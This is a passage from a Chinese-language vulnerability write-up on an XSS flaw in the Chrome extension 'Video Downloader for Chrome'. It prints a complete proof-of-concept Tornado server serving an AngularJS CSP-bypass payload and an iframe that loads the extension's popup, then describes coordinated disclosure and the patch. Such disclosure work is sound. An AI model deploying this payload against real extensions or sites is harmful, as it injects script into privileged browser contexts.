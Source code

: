 如上代码可以分为两部分：第一部分，为当前的标签页设置`videoLinks`数组。第二部分，在1秒后触发利用代码，设置`iframe`源地址为`chrome-extension://dcfofgiombegngbaofkeebiipcdgpnga/html/popup.html`（即popup页面）。最终PoC代码（包含Python服务器在内的所有代码）如下所示：

```
import tornado.ioloop
import tornado.web

class MainHandler(tornado.web.RequestHandler):
    def get(self):
        self.write("""
&lt;!DOCTYPE html&gt;
&lt;html&gt;
&lt;body&gt;
    &lt;a href="https://"ng-app ng-csp&gt;&lt;script src=https://ajax.googleapis.com/ajax/libs/angularjs/1.0.1/angular.js&gt;&lt;/script&gt;&lt;script src=https://ajax.googleapis.com/ajax/libs/prototype/1.7.2.0/prototype.js&gt;&lt;/script&gt;`{``{`$on.curry.call().alert('XSS in Video Downloader for Chrome by mandatory')`}``}`&lt;!--.flv"&gt;test&lt;/a&gt;

    &lt;iframe src="about:blank" id="poc"&gt;&lt;/iframe&gt;

    &lt;script&gt;
    setTimeout(function() `{`
        document.getElementById( "poc" ).setAttribute( "src", "chrome-extension://dcfofgiombegngbaofkeebiipcdgpnga/html/popup.html" );
    `}`, 1000);
    &lt;/script&gt;
&lt;/body&gt;
&lt;/html&gt;
        """)

class WildcardHandler(tornado.web.RequestHandler):
    def get(self):
        self.set_header("Content-Type", "video/x-flv")
        self.write( ("A" * 2048 ) )

def make_app():
    return tornado.web.Application([
        (r"/", MainHandler),
        (r"/.*", WildcardHandler),
    ])

if __name__ == "__main__":
    app = make_app()
    app.listen(8888)
    tornado.ioloop.IOLoop.current().start()
```



## 三、披露及缓解措施

由于我找不到该插件任何一名开发者的明显联系方式（Chrome插件页面上给出的联系方式非常有限），因此我联系了Google方面从事Chrome插件安全性研究的一些人。小伙伴们通知了插件开发者，及时推出了修复补丁。这两款插件的最新版都修复了本文提到的漏洞。与此同时，当使用该插件的用户自动更新插件版本后我们才发表这篇文章，因此大家应该都已打好补丁。
